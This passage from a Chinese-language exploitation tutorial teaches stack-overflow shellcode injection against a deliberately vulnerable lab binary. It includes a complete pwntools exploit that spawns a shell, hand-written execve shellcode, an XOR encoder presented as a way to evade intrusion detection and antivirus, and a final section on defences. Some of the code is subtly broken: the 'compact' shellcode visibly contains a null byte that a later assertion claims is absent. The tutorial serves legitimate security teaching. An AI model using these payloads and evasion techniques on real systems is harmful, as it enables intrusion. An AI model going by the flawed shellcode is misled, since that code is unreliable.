


## 案例二：Shellcode注入——执行任意命令

案例一展示了最基础的栈溢出利用：将返回地址覆盖为已有函数（`win()`）的地址。这种方法简单直观，但有一个致命限制——**目标程序必须包含一个"有用"的函数**。在真实的漏洞利用场景中，程序里几乎不可能恰好有一个现成的 `system("/bin/sh")` 等着你去调用。

Shellcode注入是漏洞利用技术的一次质变：不再依赖程序已有的代码，而是**将自定义的机器码注入到程序的内存空间中并执行**。这意味着攻击者可以在目标进程内执行任意操作——启动shell、反弹连接、读取敏感文件、修改内存数据，只要能用机器码表达的操作都可以实现。

本案例将从Shellcode的基本概念出发，逐步拆解注入技术的完整链路，最终实现一个可在真实环境中运行的exploit。

### Shellcode基础概念

#### 什么是Shellcode

Shellcode是一段精心构造的**原始机器码**（raw machine code），它不以ELF、PE等可执行文件格式存在，而是直接编码为字节序列。之所以叫"Shellcode"，是因为最早的用途是通过溢出漏洞获得一个交互式shell（`/bin/sh`），但现代shellcode的功能早已远超这个范围。

Shellcode与普通程序的关键区别：

| 特性 | 普通程序 | Shellcode |
|------|---------|-----------|
| 存储格式 | ELF/PE等可执行格式 | 原始字节序列 |
| 地址依赖 | 由加载器分配基址 | 必须是位置无关代码（PIC） |
| 外部依赖 | 通过动态链接调用库函数 | 需自行解析或通过系统调用 |
| 大小约束 | 无硬性限制 | 通常越小越好（受缓冲区限制） |
| 空字节 | 允许包含 `\x00` | 必须避免空字节（会截断字符串操作） |

#### 位置无关代码（PIC）

位置无关代码是Shellcode的核心要求。当shellcode被注入到目标进程中时，它可能被放在栈上、堆上或任何内存区域，**无法预先知道自己的绝对地址**。因此shellcode不能使用任何绝对地址引用，所有对代码/数据的访问都必须基于当前指令指针（RIP/EIP）的相对偏移来实现。

在x86-64架构下，由于默认使用RIP-relative寻址模式，编写PIC相对容易。但在32位x86下，需要经典的"JMP-CALL-POP"技巧或类似机制来获取当前执行位置。

#### Shellcode的分类

按功能分类，常见的shellcode类型包括：

1. **启动Shell类**：执行 `execve("/bin/sh", ...)`，获得交互式命令行
2. **命令执行类**：执行单条系统命令（如 `execve("/bin/sh", ["/bin/sh", "-c", "id"], ...)`）
3. **反弹Shell类**：建立反向TCP/UDP连接，将shell的输入输出重定向到攻击者的socket
4. **文件操作类**：读取、写入、创建或删除文件
5. **下载执行类**：从远程服务器下载payload并在内存中执行
6. **多阶段加载类**：小体积的stager负责建立连接，再下载更大的stage

按技术特征分类：

- **自包含型**：完全独立运行，不依赖任何外部信息
- **自解码型**：包含解码器，payload本身被编码以绕过检测
- **多态型**：每次生成时形态不同，但功能相同，用于对抗特征检测
- **反调试型**：包含反调试逻辑，检测到调试器则改变行为

### 目标程序分析

#### 漏洞代码

```c
// vuln2.c
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[256];
    printf("输入数据: ");
    read(0, buffer, 512);  // 溢出！buffer只有256字节，但读取512字节
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

#### 漏洞逐行解析

这段代码看似简单，但蕴含了典型的栈溢出漏洞模式：

**第6行 `char buffer[256]`**：在栈上分配了256字节的局部缓冲区。这个缓冲区的起始地址位于当前栈帧的低地址处（栈向低地址增长）。

**第8行 `read(0, buffer, 512)`**：从标准输入（fd=0）读取最多512字节数据到buffer中。问题在于：buffer只有256字节，但允许读入512字节——**溢出空间为256字节**。`read()`函数与`gets()`类似，不会检查目标缓冲区的大小，但比`gets()`更灵活（可以读取包含空字节的数据，这对shellcode注入至关重要）。

**为什么选择 `read()` 而非 `gets()`**：`gets()`遇到换行符停止读取且不允许空字节，而`read()`是底层系统调用，可以精确控制读取的字节数，也能处理包含任意字节值的数据。在shellcode注入场景中，`read()`更合适，因为shellcode的字节流中可能包含换行符（0x0a）。

#### 编译与安全检查

```bash
# 编译：关闭所有安全保护
gcc -g -fno-stack-protector -no-pie -z execstack -o vuln2 vuln2.c

# 检查安全保护状态
checksec vuln2
# 输出：
#     Arch:     amd64-64-little
#     RELRO:    No RELRO
#     Stack:    No canary found
#     NX:       NX disabled    <-- 关键！栈可执行
#     PIE:      No PIE (0x400000)
```

每个安全保护的状态分析：

- **NX disabled（栈可执行）**：这是shellcode注入的**前提条件**。如果NX启用，栈上的数据不可执行，注入的shellcode会在执行时触发段错误。在案例三中将介绍如何绕过NX。
- **No canary found**：没有栈金丝雀保护，溢出不会触发检测。
- **No PIE**：程序基址固定为 `0x400000`，代码段中的gadget地址是已知的。
- **No RELRO**：GOT表可写，虽然本案例不需要利用。

### 栈布局与溢出机制

理解shellcode注入，必须先理解函数调用时的栈帧布局。以下是 `vuln()` 被调用后的栈状态（x86-64）：

```text
高地址
┌─────────────────────┐
│   main的栈帧        │
├─────────────────────┤
│   返回地址 (8字节)   │  <-- vuln()返回后应跳转的地址
├─────────────────────┤
│   saved RBP (8字节)  │  <-- 旧的帧指针
├─────────────────────┤
│                     │
│   buffer[256]       │  <-- 256字节的局部缓冲区
│                     │
├─────────────────────┤
│   vuln的栈帧        │
└─────────────────────┘
低地址
```

溢出过程：

1. `read()` 从buffer的起始地址开始写入
2. 写满256字节的buffer后，继续向高地址覆盖
3. 接下来的8字节覆盖saved RBP（不影响本次利用）
4. 再接下来的8字节覆盖**返回地址**
5. 返回地址之后的数据，在函数返回时，栈指针RSP会指向这些位置

**关键洞察**：当 `vuln()` 执行 `ret` 指令时，CPU从RSP指向的位置弹出8字节到RIP（指令指针），然后RSP加8。这意味着**返回地址之后紧接着的数据，就是RSP将要指向的位置**——如果我们在那里放置shellcode，再让RIP跳转到 `jmp rsp`，CPU就会直接执行我们的shellcode。

### `jmp rsp` 技术详解

#### 为什么需要jmp rsp

溢出后的执行流程是：`ret`指令弹出返回地址到RIP → CPU跳转到该地址执行。如果我们直接在返回地址的位置写shellcode的地址，这个地址必须在注入之前就确定——但ASLR、栈随机化等因素使得精确预测栈地址非常困难。

`jmp rsp` 技术的核心思想：**不在返回地址写shellcode的绝对地址，而是写一条 `jmp rsp` 指令的地址**。当 `ret` 执行后，RIP指向 `jmp rsp`，而此时RSP恰好指向返回地址之后的下一个位置——也就是shellcode所在的起始位置。CPU执行 `jmp rsp`，直接跳转到shellcode。

这种技术之所以有效，是因为：
1. `jmp rsp` 的机器码只有2字节（`0xff 0xe4`），且在很多程序的代码段中可以找到
2. 不需要知道shellcode的绝对地址——由RSP动态指向
3. shellcode紧跟返回地址之后，利用栈的自然增长方向

#### 在程序中搜索jmp rsp gadget

```python
from pwn import *

elf = ELF('./vuln2')

# 方法1：在程序代码段中搜索
jmp_rsp = asm('jmp rsp')
print(f"jmp rsp 机器码: {jmp_rsp.hex()}")  # 输出: ffe4

for addr in elf.search(jmp_rsp):
    print(f"找到 jmp rsp @ {hex(addr)}")
```

如果程序自身不包含 `jmp rsp` 指令，还可以在**共享库**中搜索。例如libc中通常会有这样的gadget：

```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
for addr in libc.search(jmp_rsp):
    print(f"libc中 jmp rsp @ {hex(addr + libc.address)}")
```

使用ROPgadget工具搜索：

```bash
ROPgadget --binary ./vuln2 --only "jmp" | grep rsp
# 输出示例:
# 0x0000000000401014 : jmp rsp
```

### 完整Exploit编写

#### Shellcode生成

使用pwntools生成shellcode是最便捷的方式：

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

# 方法1：使用pwntools内置模板（启动/bin/sh）
shellcode_sh = asm(shellcraft.sh())
print(f"shellcraft.sh() 长度: {len(shellcode_sh)} 字节")
print(f"Shellcode内容: {shellcode_sh.hex()}")

# 方法2：执行指定命令
shellcode_cmd = asm(shellcraft.execve('/bin/sh', ['/bin/sh', '-c', 'id'], 0))
print(f"execve id 长度: {len(shellcode_cmd)} 字节")

# 方法3：手动编写execve shellcode（更紧凑）
shellcode_manual = asm("""
    /* execve("/bin/sh", ["/bin/sh", 0], 0) */
    xor    rsi, rsi          /* argv = NULL */
    push   rsi               /* 字符串终止符 \0 */
    mov    rdi, 0x68732f6e69622f  /* "/bin/sh" */
    push   rdi
    push   rsp
    pop    rdi               /* rdi = "/bin/sh" 的地址 */
    xor    rdx, rdx          /* envp = NULL */
    mov    al, 59            /* syscall number for execve */
    syscall
""")
print(f"手动shellcode 长度: {len(shellcode_manual)} 字节")
```

#### 检查Shellcode是否包含空字节

**空字节检查是shellcode开发中最重要的验证步骤之一**。许多漏洞触发的写入操作（如`strcpy`、`gets`）会在遇到`\x00`时终止，导致shellcode被截断。

```python
def check_bad_chars(shellcode, bad_chars=b'\x00'):
    """检查shellcode中是否包含不良字符"""
    for i, b in enumerate(shellcode):
        if b in bad_chars:
            print(f"[!] 发现不良字符 0x{b:02x} 在偏移 {i} (0x{i:x})")
            # 显示上下文
            start = max(0, i - 4)
            end = min(len(shellcode), i + 5)
            context_bytes = ' '.join(f'{c:02x}' for c in shellcode[start:end])
            print(f"    上下文: [{context_bytes}]  <-- 0x{b:02x} 在此处")
            return False
    print("[+] Shellcode不含任何不良字符")
    return True

check_bad_chars(shellcode_sh)
```

如果shellcode包含不良字符，解决方案：
1. 使用pwntools的编码器：`shellcraft.sh()` 默认生成的shellcode通常不含空字节
2. 手动调整汇编指令，用等价但不含不良字节的指令替换
3. 使用自解码shellcode：先注入一个小的解码器，运行时再解码实际payload

#### 完整Exploit

```python
#!/usr/bin/env python3
"""
案例二 Exploit：Shellcode注入执行任意命令
利用 jmp rsp 技术将执行流导向栈上的shellcode
"""
from pwn import *

# ============ 环境配置 ============
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'  # debug/info/warning

# ============ 加载目标程序 ============
elf = ELF('./vuln2')

# ============ 生成Shellcode ============
shellcode = asm(shellcraft.sh())
log.info(f"Shellcode长度: {len(shellcode)} 字节")
assert len(shellcode) <= 256, \
    f"Shellcode({len(shellcode)}字节)超过缓冲区空间(256字节)!"

# ============ 定位jmp rsp gadget ============
jmp_rsp_bytes = asm('jmp rsp')  # \xff\xe4
jmp_rsp_addr = None
for addr in elf.search(jmp_rsp_bytes):
    jmp_rsp_addr = addr
    break

if jmp_rsp_addr is None:
    log.warning("目标程序中未找到jmp rsp，尝试在libc中搜索...")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    for addr in libc.search(jmp_rsp_bytes):
        jmp_rsp_addr = addr
        break
    assert jmp_rsp_addr is not None, "未找到jmp rsp gadget！"

log.success(f"jmp rsp地址: {hex(jmp_rsp_addr)}")

# ============ 构造Payload ============
offset = 256 + 8  # buffer(256) + saved_rbp(8)
payload  = b'A' * offset           # 填充到返回地址
payload += p64(jmp_rsp_addr)       # 覆盖返回地址
payload += shellcode               # shellcode紧随其后

log.info(f"Payload总长度: {len(payload)} 字节")
log.info(f"  填充: {offset} 字节")
log.info(f"  返回地址: {hex(jmp_rsp_addr)}")
log.info(f"  Shellcode: {len(shellcode)} 字节")

# ============ 发送Payload ============
p = process('./vuln2')
p.sendline(payload)
p.interactive()
```

### 执行流程图

Shellcode注入的完整执行流程如下：



### 运行与验证

```bash
# 终端1：启动exploit
$ python3 exploit.py
[*] Shellcode长度: 44 字节
[*] jmp rsp地址: 0x401014
[*] Payload总长度: 316 字节
[+] Starting local process './vuln2': pid 12345
[*] Switching to interactive mode
输入数据: $ whoami
kyle
$ id
uid=1000(kyle) gid=1000(kyle)
$ exit
[*] Got EOF while reading in interactive
```

验证要点：
1. **Shellcode正确执行**：`whoami`和`id`命令返回了结果，证明获得了shell
2. **进程连续性**：shell是在vuln2进程内部启动的（PID未变）
3. **权限继承**：获得的shell拥有与vuln2进程相同的用户权限

### 常见问题排查

#### 问题1：段错误（Segmentation Fault）

**表现**：exploit运行后进程崩溃，没有获得shell。

**排查步骤**：

```bash
# 用GDB附加调试
gdb -q ./vuln2 -ex "r" -ex "bt" -ex "info registers rip rsp"

# 发送payload后观察寄存器状态
# 如果RIP不是期望的jmp rsp地址，说明偏移计算错误
```

**常见原因**：
- 偏移量计算错误（saved RBP大小可能因编译器/优化级别不同）
- jmp rsp地址错误（PIE程序基址不固定）
- NX保护未关闭，shellcode所在的栈页不可执行

#### 问题2：Payload被截断

**表现**：只执行了部分shellcode，功能不完整。

**排查**：

```python
# 检查payload中是否有截断字符
payload = b'A' * offset + p64(jmp_rsp_addr) + shellcode
for i, b in enumerate(payload):
    if b == 0x0a:  # 换行符（gets/scanf会在此截断）
        print(f"[!] 换行符在偏移 {i}")
    if b == 0x00:  # 空字节（strcpy/strncpy会在此截断）
        print(f"[!] 空字节在偏移 {i}")
```

注意：本案例使用`read()`作为输入函数，它不会被空字节或换行符截断。但如果漏洞函数是`gets()`或`strcpy()`，就需要特别注意。

#### 问题3：找不到jmp rsp

**替代方案**：

```python
# 方案1：在libc中搜索
# 需要知道libc的加载地址（可以通过信息泄露获得）

# 方案2：使用其他跳转指令
# jmp rax, jmp rbx等，取决于溢出时哪个寄存器指向shellcode
from pwn import *
for reg in ['rax', 'rbx', 'rcx', 'rdx', 'rsi', 'rdi', 'rsp', 'rbp']:
    try:
        gadget = asm(f'jmp {reg}')
        print(f"jmp {reg}: {gadget.hex()}")
    except:
        pass

# 方案3：使用call [reg+offset]指令族
# 通过ret2csu或其他gadget链跳转到shellcode

# 方案4：如果能泄露栈地址，直接用shellcode的绝对地址覆盖返回地址
```

### 进阶：手动编写紧凑Shellcode

pwntools生成的shellcode虽然可靠但体积较大（通常40-60字节）。在缓冲区空间受限的场景下，手写汇编可以获得更紧凑的结果。

#### 最小execve("/bin/sh") Shellcode

```python
from pwn import *

context.arch = 'amd64'

# 方法1：利用字符串 "/bin/sh" 的编码
shellcode_v1 = asm("""
    /* 等价于: execve("/bin/sh", NULL, NULL) */
    xor  rsi, rsi         /* argv = NULL (2字节: 48 31 f6) */
    push rsi              /* 压入 \0 终止符 (1字节: 56) */
    mov  rdi, 0x68732f6e69622f  /* "/bin/sh\0" (10字节: 48 bf 2f 62 69 6e 2f 73 68 00) */
    push rdi              /* 将字符串压栈 (1字节: 57) */
    push rsp              /* (1字节: 54) */
    pop  rdi              /* rdi = 字符串地址 (1字节: 5f) */
    xor  rdx, rdx         /* envp = NULL (2字节: 48 31 d2) */
    mov  al, 59           /* syscall number (2字节: b0 3b) */
    syscall               /* 执行 (2字节: 0f 05) */
""")
print(f"v1长度: {len(shellcode_v1)} 字节")  # 约22字节

# 方法2：利用push/pop减少指令
shellcode_v2 = asm("""
    xor    rsi, rsi
    cdq                   /* rdx = 0 (1字节: 99, 比 xor rdx,rdx 少1字节) */
    push   0x68
    mov    rax, 0x732f2f2f6e69622f
    push   rax
    push   rsp
    pop    rdi
    mov    al, 59
    syscall
""")
print(f"v2长度: {len(shellcode_v2)} 字节")  # 约21字节
```

#### 检查与验证

```python
# 验证shellcode不含空字节
assert b'\x00' not in shellcode_v1, "shellcode v1 包含空字节！"
assert b'\x00' not in shellcode_v2, "shellcode v2 包含空字节！"

# 在模拟器中测试shellcode
p = run_assembly(shellcode_v1)
p.sendline(b'echo SHELLCODE_WORKS')
p.sendline(b'exit')
output = p.recvall(timeout=5)
assert b'SHELLCODE_WORKS' in output
print("Shellcode测试通过！")
```

### Shellcode编码与免杀

#### 为什么要编码

在实际渗透测试中，IDS/IPS和终端防护软件会检测内存中的shellcode特征。常见的检测方式：

1. **特征匹配**：匹配已知shellcode的字节序列
2. **启发式检测**：检测syscall指令模式、高频指令组合
3. **熵值分析**：随机性高的数据段可能包含编码后的shellcode
4. **行为监控**：检测进程是否发起了可疑的系统调用

#### XOR编码器示例

```python
def xor_encode(shellcode, key):
    """XOR编码shellcode"""
    encoded = bytes(b ^ key for b in shellcode)
    # 检查编码后是否仍包含不良字符
    if b'\x00' in encoded:
        return None  # 该key不可用
    return encoded

# 寻找合适的XOR key
for key in range(1, 256):
    encoded = xor_encode(shellcode, key)
    if encoded is not None:
        print(f"可用key: 0x{key:02x}")
        break

# 生成带解码器的完整shellcode
decoder_template = f"""
    /* XOR解码器 */
    lea    rsi, [rip + encoded_data]  /* 指向编码后的数据 */
    mov    rcx, {len(encoded)}        /* 数据长度 */
    mov    al, 0x{key:02x}            /* XOR key */
decode_loop:
    xor    byte ptr [rsi], al         /* 解码一个字节 */
    inc    rsi                         /* 移动到下一字节 */
    dec    rcx                         /* 计数器减1 */
    jnz    decode_loop                 /* 循环直到全部解码 */
encoded_data:
    /* 编码后的shellcode将紧跟在此之后 */
"""
```

### 防御视角：如何防止Shellcode注入

理解攻击是为了更好地防御。Shellcode注入的防御分为多个层次：

#### 1. NX位（No-Execute / DEP）

NX是最直接的防御手段，由CPU硬件支持。开启NX后，栈和堆上的数据页被标记为不可执行，shellcode如果放在栈上，执行时会触发段错误。

```bash
# 开启NX编译（现代GCC默认开启）
gcc -g -o vuln2_protected vuln2.c

# 验证NX状态
checksec vuln2_protected
# NX:       NX enabled
```

#### 2. 栈金丝雀（Stack Canary）

在返回地址之前插入一个随机值，函数返回前检查该值是否被篡改。如果被溢出覆盖，程序会终止。

```bash
# 开启栈保护
gcc -g -fstack-protector-all -o vuln2_canary vuln2.c
```

#### 3. ASLR（地址空间布局随机化）

每次程序运行时，栈、堆、共享库的加载地址随机变化，使得预测栈地址和寻找gadget变得困难。

```bash
# 查看ASLR状态
cat /proc/sys/kernel/randomize_va_space
# 0: 关闭  1: 部分随机  2: 完全随机

# 临时关闭ASLR（调试用）
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

#### 4. 源代码层面的防御

```c
// 危险：使用无边界检查的函数
read(0, buffer, MAX_SIZE);  // MAX_SIZE > sizeof(buffer)
gets(buffer);
strcpy(dest, src);

// 安全：使用有边界检查的替代品
fgets(buffer, sizeof(buffer), stdin);
read(0, buffer, sizeof(buffer) - 1);  // 留一个字节给\0
strncpy(dest, src, dest_size - 1);
dest[dest_size - 1] = '\0';
```

### 本案例的知识图谱



### 小结

本案例通过Shellcode注入技术，展示了漏洞利用从"调用已有函数"到"执行自定义代码"的飞跃。核心要点：

1. **NX禁用是前提**：栈必须可执行才能运行注入的shellcode
2. **`jmp rsp`是桥梁**：在不知道栈地址的情况下，通过RSP寄存器间接跳转到shellcode
3. **位置无关是关键**：shellcode必须是PIC，不能包含绝对地址引用
4. **字节约束需验证**：空字节和换行符可能导致shellcode被截断
5. **体积控制很重要**：shellcode长度不能超过缓冲区的可用空间

在案例三中，我们将面对NX保护开启的场景——栈上的shellcode无法直接执行，需要通过ROP（Return-Oriented Programming）技术来绕过这一限制。

***
